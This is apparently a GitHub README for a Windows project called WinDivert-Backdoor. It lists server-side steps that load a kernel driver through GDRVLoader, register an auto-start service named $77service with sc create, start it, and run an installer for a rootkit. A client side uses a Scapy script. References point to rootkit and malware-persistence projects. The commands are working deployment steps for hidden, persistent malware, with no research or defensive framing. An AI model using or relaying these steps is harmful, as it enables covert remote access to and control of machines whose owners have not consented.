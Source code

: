 # WinDivert-Backdoor
## Server
1. Install driver with GDRVLoader.exe </br>
`GDRVLoader.exe C:\$77folder\$77kernel.sys` 
3. Install service </br>
`sc create $77service binPath= "C:\$77folder\$77service.exe" start= auto`
5. Start service </br>
`sc start $77service`
6. Install rootkit </br>
`Install.exe`
## Client
1. [Install Scapy](https://scapy.readthedocs.io/en/latest/installation.html)
2. Download client.py script
3. Flourish

## References
| Link to Project                                                     | License                                                                                              |
|---------------------------------------------------------------------|------------------------------------------------------------------------------------------------------|
| https://github.com/zer0condition/GDRVLoader                         | None                                                                                                 |
| https://github.com/basil00/Divert                                   | GNU Lesser General Public License Version 3 or the GNU General Public License Version 2 |
| https://github.com/cocomelonc/2022-05-09-malware-pers-4/tree/master | None                                                                                                 |
| https://github.com/r-a303931/pcap-backdoor                          | GNU Affero General Public License v3.0                                                               |
| https://github.com/bytecode77/r77-rootkit                           | BSD 2-Clause "Simplified" License                                                                    |
